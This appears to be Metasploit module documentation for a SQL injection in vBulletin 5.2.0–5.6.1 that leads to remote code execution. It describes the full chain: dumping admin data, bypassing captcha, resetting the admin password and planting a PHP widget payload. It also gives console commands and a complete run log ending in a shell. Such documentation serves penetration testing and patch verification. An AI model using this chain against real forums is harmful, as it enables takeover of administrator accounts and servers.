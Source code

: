 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

### Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the
`getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and
can be reached through multiple paths (listed below) but is exploited in this module utilizing the
`/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php`
file. The SQL injection attack used utilizes a UNION query in order to leak data back in the response
`rawtext` field.

#### Leveraging getContentIndexable SQL injection for RCE

The exploit begins by attempting to get a `nodeid` for use in the SQL injection attack, this can be supplied
by the user within the `NODE` module option, or if not supplied, the value is brute-forced within the bounds
of the `MINNODE` and `MAXNODE` module options. After acquiring a valid `nodeid`, the exploit attempts to obtain
the vBulletin install's table prefix. This is done by using the `getIndexableContent` SQL injection vulnerability
to query the `INFORMATION_SCHEMA` table and get a result we expect (to determine if there is a prefix attached).
In the module we use the `language` table for this process. After getting the table prefix we can begin dumping
the table data, we start with the administrator user id, username, token, and email. These are used later in the
process to make a lost password request and can also be used to backup the administrator user's data prior to the
destructive change that will happen when the password is changed later in the module. After acquiring the
administrator info the script begins the to gather other pieces needed to submit a lost password request. This
part can vary between installs but involves a form of "human verification" along with an administrator's email.
The module will attempt to determine the human verification (or captcha) type, then determine if a bypass or solve
is possible. There are 4 total types of human verification, an image (GD or ImageMagic based), a Question/Answer
(which is stored as a regular expression), Recaptcha2 (an external api based captcha), and disabled.

- If an `Image` (GD or ImageMagic based) human verification is selected, the module can bypass it and requires
no interaction. This is done by querying the database for the image contents using the SQL injection vulnerabilty.

- If the `Question/Answer` human verification is selected, the module will attempt to submit the answer retrieved
from the database utilizing the SQL injection vulnerability. This can sometimes fail and require manual intervention
if a complex regular expression is used but the answer is provided through the modules output.

- If the `Recaptcha2` human verification method is selected, the module will fail with a message along with an
administrators email to use for a lost password request.

- If `Disabled` is chosen, the script will work without action.

After bypassing the human verification the script will attempt to send a lost password request, this will send
an email to the administrator. If the human verification request fails, the module can be configured to skip the
human verification and lost password steps. This is done by setting the modules `MANUALLOSTPASS` option to true,
**this however does require that just prior to running the exploit the lost password request is made**. If the
administrator completes the request, the activation token will be removed from the database and the next step of
the reset will fail. After the lost password request is made, the module then attempts to retrieve the Activation
ID from the database using the SQL injection vulnerability. When all of the above is completed, the administrators
password can finally be reset. The password is changed to a random 10-16 character alphanumeric password which is
displayed in the modules output.

The module can now begin to leverage the administrator access for remote command execution. This begins by first creating
a new widget instance, this widget instance is of a `widget_php` type (a special type that allows for php code embedded
within). After the widget instance is created, the module then attempts to modify the widget to add our selected payload.
The widget is then ready to use and is added to a new page. This page is created with a randomly generated 10 to 16
character alphanumeric url. The payload and attack is then ready to execute and the module makes a final request in the
attack process to execute the PHP payload. Upon successful completion, the page is deleted from the vBulletin install.

## Verification Steps

1. Do: ```use exploit/multi/http/vbulletin_getindexablecontent```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```set PAYLOAD [PAYLOADNUM]```
6. Do: ```run```

## Options

### MANUALLOSTPASS

A boolean value used to determine if the lost password request should be automated or will be performed manually. **Default: false**

### NODE

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired by brute-forcing.

### MINNODE

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

### MAXNODE

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

### TARGETURI

The base URI path of vBulletin. **Default: /**

## Scenarios

```
msf5 > use exploit/multi/http/vbulletin_getindexablecontent 
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set RHOSTS vb.local
RHOSTS => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set VHOST vb.local
VHOST => vb.local
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set TARGETURI /vb5
TARGETURI => /vb5
msf5 exploit(multi/http/vbulletin_getindexablecontent) > set PAYLOAD 2
msf5 exploit(multi/http/vbulletin_getindexablecontent) > check
[*] 192.168.1.100:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/vbulletin_getindexablecontent) > run

[*] Brute forcing to find a valid node id.
[+] Sucessfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[*] Performing SQL injection on target to retrieve 'table_name' from 'information_schema.columns'.
[+] Sucessfully retrieved table to get prefix from vb5_language.
[*] Performing SQL injection on target to retrieve 'userid' from 'vb5_administrator'.
[*] Performing SQL injection on target to retrieve 'username' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'token' from 'vb5_user'.
[*] Performing SQL injection on target to retrieve 'email' from 'vb5_user'.
[+] Retrieved administrator uid: 1 user: administrator email: zenofex@exploitee.rs and password: $2y$15$IKz0ra/N2WrJr4BZZMExIOwIET.4Tz8Wni20BMEHjG/A.k9tuOK.W
[*] Sending request to '/vb5/ajax/api/hv/fetchHvType' to get human verification type.
[+] Retrieved HV/captcha type of 'Image'.
[*] Making request to '/vb5/ajax/api/hv/generateToken' to retrieve HV token.
[+] Retrieved '85885c3fafb61b91cb3d2959e13ffe07' human verification token.
[*] Using HV token '85885c3fafb61b91cb3d2959e13ffe07' and SQLinjection to determine HV answer.
[*] Performing SQL injection on target to retrieve 'answer' from 'vb5_humanverify'.
[+] Retrieved '4w8CPc' answer to HV token '85885c3fafb61b91cb3d2959e13ffe07'.
[*] Making request to '/vb5/auth/lostpw' to begin lost password process.
[*] Performing SQL injection on target to retrieve 'activationid' from 'vb5_useractivation'.
[*] Sending reset password request to '/vb5/auth/reset-password'.
[+] User with userid '1' successfully reset password to 'dSxTtxI7yh'.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator .
[*] Making request to '/vb5/ajax/activate-sitebuilder' to activate site-builder functionality.
[+] Successfully enabled site-builder functionality.
[*] Making login request to '/vb5/auth/ajax-login' with username: 'administrator' and password: 'dSxTtxI7yh'.
[+] Successfully logged in as administrator cplogin.
[*] Making request to '/vb5/ajax/api/widget/saveNewWidgetInstance' to create new widget.
[+] Created new widget instance.
[*] Making request to '/vb5/ajax/api/widget/saveAdminConfig' to add payload to widget.
[+] Successfully added payload to widget.
[*] Sending request to '/vb5/admin/savepage' to save new page at 'OToB9nTU'.
[+] Page succesfully create and should be accessible at '/vb5/OToB9nTU'.
[+] Executing PHP payload (230 bytes) at /vb5/OToB9nTU.
[*] Sending request to '/vb5/OToB9nTU' to execute payload.
[*] Sending delete page request to '/vb5/ajax/api/page/delete'.
[+] Successfully deleted page with pageid: 148
[*] Started bind TCP handler against 192.168.1.100:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.100:4444) at 2020-05-22 21:24:42 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
